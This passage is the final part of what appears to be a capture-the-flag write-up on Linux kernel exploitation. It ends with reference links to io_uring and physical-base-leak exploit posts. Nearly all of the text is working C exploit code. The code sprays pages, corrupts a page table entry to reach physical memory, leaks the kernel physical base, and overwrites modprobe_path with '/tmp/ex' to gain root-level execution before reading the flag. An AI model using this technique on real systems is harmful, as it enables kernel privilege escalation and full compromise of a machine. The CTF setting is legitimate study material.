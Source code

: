 ```c

	pid_t pid = clone(page, malloc(0x1000)+0x1000, SIGCHLD, 0);
	waitpid(pid, 0, 0);

	sleep(1);

	for (int i = 0; i < SPRAY_CNT; i++){
		for (int j = 0; j < 8; j++){
				*(ulong*)(spray[i] + j*PAGE_SIZE) = 0x4141414141414141;
		}
	}

	ulong *pte = (ulong*)(p+SBUF_SIZE);

	if (*(char*)pte != 0x67) {
		errx(1, "[-] Error");
		return 1;
	}

	*pte = 0x800000000009c067;
	ulong *vuln = 0;
	for (int i = 0; i < SPRAY_CNT; i ++) {
		for (int j = 0; j < 8; j++) {
			if (*(ulong*)(spray[i]+j*0x1000) != 0x4141414141414141) {
				vuln = (ulong*)(spray[i] + j * 0x1000);
				break;
			}
		}
		if (vuln){
			break;
		}
	}

	ulong pb = (*vuln & ~0xfff) - 0x2604000;
	printf("[+] phys_base = 0x%lx\n", pb);

	ulong modprobe = pb + 0x1b3f200;
	*pte = 0x8000000000000067 + (modprobe & ~0xfff);
	printf("0x%lx", *pte);
	puts("[+] Overwrite Kernel Function");
	vuln[0x20] = 0x78652f706d742f;

	get_flag();

	return 0;
}
```

## Ref
[1] <https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#crossing-the-cache-boundary> <br>
[2] <https://labs.bluefrostsecurity.de/blog/cve-2023-2008.html> <br>
[3] <https://ptr-yudai.hatenablog.com/entry/2023/12/08/093606#Leaking-physical-base-address> <br>